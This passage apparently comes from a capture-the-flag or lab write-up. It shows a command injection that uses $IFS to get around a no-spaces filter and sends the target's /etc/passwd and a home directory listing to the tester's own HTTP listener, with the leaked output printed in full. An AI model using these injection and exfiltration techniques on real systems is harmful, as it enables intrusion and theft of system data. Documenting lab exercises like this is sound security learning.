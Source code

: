     spaces are URL encoded and it doesn't understand bash command, I try to bypass the problem by not using space character [https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces)

    `http://10.10.14.49:8000/?passwd=$(cat$IFS/etc/passwd)`
    ```
    Directory listing for /?passwd=
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin wwwdata:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System
    (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemdnetwork:x:101:102:systemd Network
    Management,,,:/run/systemd:/usr/sbin/nologin systemdresolve:x:102:103:systemd
    Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
    henry:x:1000:1000:henry,,,:/home/henry:/bin/bash systemdtimesync:x:999:999:systemd Time
    Synchronization:/:/usr/sbin/nologin systemdcoredump:x:998:998:systemd Core
    Dumper:/:/usr/sbin/nologin
    ruby:x:1001:1001::/home/ruby:/bin/bash
    _laurel:x:997:997::/var/log/laurel:/bin/false
    ```

    `http://10.10.14.49:8000/?ls=$(ls$IFS-al$IFS$HOME)`
    ```html
    Directory listing for /?ls=
    total 848
    drwxr-xr-x 6 ruby ruby 4096 Dec 2 10:56 .
    drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
    lrwxrwxrwx 1 root root 9 Oct 26 07:53 .bash_history -> /dev/null
    -rw-r--r-- 1 ruby ruby 220 Mar 27 2022 .bash_logout
    -rw-r--r-- 1 ruby ruby 3526 Mar 27 2022 .bashrc
    dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
    drwxr-xr-x 4 ruby ruby 4096 Dec 2 10:27 .cache
    drwx------ 3 ruby ruby 4096 Dec 2 10:44 .gnupg
    drwxr-xr-x 3 ruby ruby 4096 Dec 2 10:56 .local
    -rw-r--r-- 1 ruby ruby 807 Mar 27 2022 .profile
    ```
